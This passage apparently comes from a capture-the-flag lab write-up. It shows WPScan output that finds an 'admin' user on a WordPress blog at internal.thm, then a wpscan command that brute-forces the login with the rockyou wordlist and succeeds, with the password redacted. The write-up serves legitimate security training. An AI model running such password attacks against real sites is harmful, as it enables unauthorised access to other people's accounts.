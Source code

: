 ```bash
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jul  9 10:58:59 2021
[+] Requests Done: 538
[+] Cached Requests: 9
[+] Data Sent: 142.935 KB
[+] Data Received: 538.97 KB
[+] Memory used: 219.34 MB
[+] Elapsed time: 00:00:18
```
Returns interesting information, found an user: `admin`.

Let's see if we can brute force the WordPress login with that user...

```bash
╰─ lanfran@parrot ❯ wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt                             ─╯
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[...]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / [REDACTED]                                                                                                           
Trying admin / bratz1 Time: 00:02:40 <                                                       > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: [REDACTED]

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jul  9 11:07:29 2021
[+] Requests Done: 4026
[+] Cached Requests: 37
[+] Data Sent: 2.036 MB
[+] Data Received: 2.31 MB
[+] Memory used: 237.906 MB
[+] Elapsed time: 00:02:51
```
Cool!
